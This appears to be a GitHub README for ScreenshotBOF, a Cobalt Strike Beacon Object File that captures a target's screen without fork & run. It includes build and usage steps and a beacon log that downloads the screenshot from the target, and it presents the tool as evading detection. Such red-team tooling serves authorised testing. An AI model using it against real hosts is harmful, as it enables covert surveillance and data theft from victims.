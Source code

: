 # ScreenshotBOF

An alternative screenshot capability for Cobalt Strike that uses WinAPI and does not perform a fork & run. Screenshot saved to disk as a file.

## Self Compilation
1. git clone the repo
2. open the solution in Visual Studio
3. Build project BOF

## Usage
1. import the screenshotBOF.cna script into Cobalt Strike
2. use the command screenshot_bof
3. Download the screenshot from the target
```
beacon> screenshot_bof
[*] Running screenshot BOF by (@codex_tf2)
[+] host called home, sent: 3411 bytes
[+] received output:
[*] Tasked beacon to printscreen and save to disk
[+] received output:
[+] PrintScreen saved to bitmap...
[+] received output:
[+] Printscreen bitmap saved to screenshot.bmp
beacon> download screenshot.bmp
[*] Tasked beacon to download screenshot.bmp
[+] host called home, sent: 22 bytes
[*] started download of C:\screenshot.bmp (12441668 bytes)
[*] download of screenshot.bmp is complete
```

## Notes
- no evasion is performed, which should be fine since the WinAPIs used are not malicious
- in memory downloading of screenshots is planned to be added
- the filename can be changed in the source code.

## Why did I make this?
Cobalt Strike uses a technique known as fork & run for many of its post-ex capabilities, including the screenshot command. While this behaviour provides stability, it is now well known and heavily monitored for. This BOF is meant to provide a more OPSEC safe version of the screenshot capability.

## Credits
- Made using https://github.com/securifybv/Visual-Studio-BOF-template